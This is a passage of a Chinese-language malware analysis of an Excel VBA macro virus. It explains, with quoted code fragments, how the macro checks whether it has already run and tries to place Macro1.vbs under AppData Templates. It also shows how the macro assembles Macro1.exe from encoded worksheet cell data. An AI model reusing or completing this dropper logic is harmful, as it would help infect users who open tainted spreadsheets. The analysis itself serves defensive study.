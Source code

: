 ```
Cells(1, 1).Select
End Sub

```

函数运行结果为，在 1001 行往下，依次每行填入数据。

![p5](http://drops.javaweb.org/uploads/images/d2df82b688910a8aad7b6736553a08f10c797f44.jpg)

### 2、对是否运行过一次做检查

```
If Cells(2, 1) <> "" Then
GoTo skyhigh
End If

```

当运行过一次之后， Cells(2,1) 表格会被写入值，会在这里进入语句 Then ，执行 “Goto skyhigh” 语句， “skyhigh” 标记定位在函数尾部，即执行该语句后会退出该函数。

### 3

从代码意图猜测，病毒作者想在`%userprofile% AppDataRoamingMicrosoftTemplates`生成一个名为Macro1.vbs 的vbs文件 ,

```
Dim Fnslr1 As String
    Dim Fnslr2 As String
    Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplatesMacro1.vbs"
    ChDrive (Fnslr2)
If Dir(Fnslr2) = "" Then
Else
End If

```

其中，病毒拼凑生成文件的目录路径时，从表格 2 的Cells(998, 40) 中读取 ，该值为环境变量值 userprofile.

![p6](http://drops.javaweb.org/uploads/images/e0a7a36b6ac3617a55ac46ace9eba743c043bad7.jpg)

只是，病毒作者并没有继续完善相关代码。实际测试运行样本也并没有生成该文件，猜测可能作者后续加入该功能，或者该功能已经被取消。

### 4

在`%serprofile% AppDataRoamingMicrosoftTemplates`目录生成可执行文件 Macro1.exe，

```
Dim i As Double
i = 1000
    Fnslr1 = "Macro1.exe"
    Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplates"
    Fnslr3 = FreeFile()
    Open Fnslr1 For Binary As Fnslr3
    Do While Sh2.Cells(i, 9) <> ""
            Fnslr11 = Sh2.Cells(i, 9)
        If (Fnslr9 = True) Then
            Fnslr8 = 1
            Do While (Fnslr8 < Len(Fnslr11))
                Fnslr6 = Sh2.Cells(997, 40) & Mid(Fnslr11, Fnslr8, 3)
                Put #Fnslr3, , Fnslr6 
                Fnslr8 = Fnslr8 + 3
            Loop
        End If
        If Fnslr9 = False Then
            Fnslr9 = True
        End If
         i = i + 1
```